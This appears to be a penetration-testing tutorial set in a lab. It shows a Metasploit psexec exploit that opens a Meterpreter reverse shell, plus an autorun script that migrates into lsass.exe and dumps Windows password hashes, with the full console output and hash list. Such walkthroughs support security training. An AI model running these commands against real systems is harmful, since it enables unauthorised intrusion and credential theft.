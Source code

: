 ## Storing commands in the file for further automation:
```python
┌──(root㉿kali)-[/home/hyok]
└─# cat >  autoruncmds.rc          
migrate -N lsass.exe
hashdump
^C
```
- First, we need to create a file with the commands we want to execute.
- In this example, we will migrate to the `lsass.exe` process and dump the windows hashes.

## Next, we will use the `exploit/windows/smb/psexec` exploit module to compromise the target:
- `AUTORUNSCRIPT` to specify the command we want to execute as soon as we receive a new session:
- By setting `AUTORUNSCRIPT`, we can automatically run scripts on session creation.
- In this example, we will use the `multi_console_command` script, which allows us to specify multiple commands to run.
- Use `-c` followed by the commands to execute, enclosed in double quotes and separated by a comma or use `-r` and the path to the file with a list of commands, one per line.
```python
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOST 192.168.216.11
RHOST => 192.168.216.11
msf6 exploit(windows/smb/psexec) > set SMBUSER Administrator
SMBUSER => Administrator
msf6 exploit(windows/smb/psexec) > set SMBPASS vagrant
SMBPASS => vagrant
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set AUTORUNSCRIPT multi_console_command -r /home/hyok/autoruncmds.rc
AUTORUNSCRIPT => multi_console_command -r /home/hyok/autoruncmds.rc
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.216.9:4444 
[*] 192.168.216.11:445 - Connecting to the server...
[*] 192.168.216.11:445 - Authenticating to 192.168.216.11:445 as user 'Administrator'...
[*] 192.168.216.11:445 - Selecting PowerShell target
[*] 192.168.216.11:445 - Executing the payload...
[+] 192.168.216.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.216.11
[*] Session ID 2 (192.168.216.9:4444 -> 192.168.216.11:49270) processing AutoRunScript 'multi_console_command -r /home/hyok/autoruncmds.rc'
[*] Running Command List ...
[*] 	Running command migrate -N lsass.exe
[*] Migrating from 4920 to 484...
[*] Migration completed successfully.
[*] 	Running command hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
anakin_skywalker:1011:aad3b435b51404eeaad3b435b51404ee:c706f83a7b17a0230e55cde2f3de94fa:::
artoo_detoo:1007:aad3b435b51404eeaad3b435b51404ee:fac6aada8b7afc418b3afea63b7577b4:::
ben_kenobi:1009:aad3b435b51404eeaad3b435b51404ee:4fb77d816bce7aeee80d7c2e5e55c859:::
boba_fett:1014:aad3b435b51404eeaad3b435b51404ee:d60f9a4859da4feadaf160e97d200dc9:::
chewbacca:1017:aad3b435b51404eeaad3b435b51404ee:e7200536327ee731c7fe136af4575ed8:::
c_three_pio:1008:aad3b435b51404eeaad3b435b51404ee:0fd2eb40c4aa690171ba066c037397ee:::
darth_vader:1010:aad3b435b51404eeaad3b435b51404ee:b73a851f8ecff7acafbaa4a806aea3e0:::
greedo:1016:aad3b435b51404eeaad3b435b51404ee:ce269c6b7d9e2f1522b44686b49082db:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
han_solo:1006:aad3b435b51404eeaad3b435b51404ee:33ed98c5969d05a7c15c25c99e3ef951:::
jabba_hutt:1015:aad3b435b51404eeaad3b435b51404ee:93ec4eaa63d63565f37fe7f28d99ce76:::
jarjar_binks:1012:aad3b435b51404eeaad3b435b51404ee:ec1dcd52077e75aef4a1930b0917c4d4:::
kylo_ren:1018:aad3b435b51404eeaad3b435b51404ee:74c0a3dd06613d3240331e94ae18b001:::
lando_calrissian:1013:aad3b435b51404eeaad3b435b51404ee:62708455898f2d7db11cfb670042a53f:::
leia_organa:1004:aad3b435b51404eeaad3b435b51404ee:8ae6a810ce203621cf9cfa6f21f14028:::
luke_skywalker:1005:aad3b435b51404eeaad3b435b51404ee:481e6150bde6998ed22b0e9bac82005a:::
sshd:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd_server:1002:aad3b435b51404eeaad3b435b51404ee:8d0a16cfc061c3359db455d00ec27035:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Meterpreter session 2 opened (192.168.216.9:4444 -> 192.168.216.11:49270) at 2023-03-16 15:08:47 +0530
```